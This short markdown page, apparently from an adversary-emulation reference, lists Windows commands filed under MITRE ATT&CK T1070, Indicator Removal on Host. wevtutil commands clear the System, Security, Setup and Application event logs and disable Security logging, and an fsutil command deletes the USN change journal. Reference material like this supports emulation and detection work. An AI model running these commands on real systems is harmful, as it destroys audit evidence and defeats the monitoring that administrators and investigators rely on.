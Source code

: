 ## Indicator Removal on Host

MITRE ATT&CK Technique: [T1070](https://attack.mitre.org/wiki/Technique/T1070)

## Wevtutil

Clear system logs

    wevtutil cl System

Clear Security logs

    wevtutil cl Security

Clear Setup logs

    wevtutil cl Setup

Clear Application logs

    wevtutil cl Application

Stop event logs

    Wevtutil.exe sl Security /e:false

## Fsutil

Manages the update sequence number (USN) change journal, which provides a persistent log of all changes made to files on the volume.

    fsutil usn deletejournal /D C:
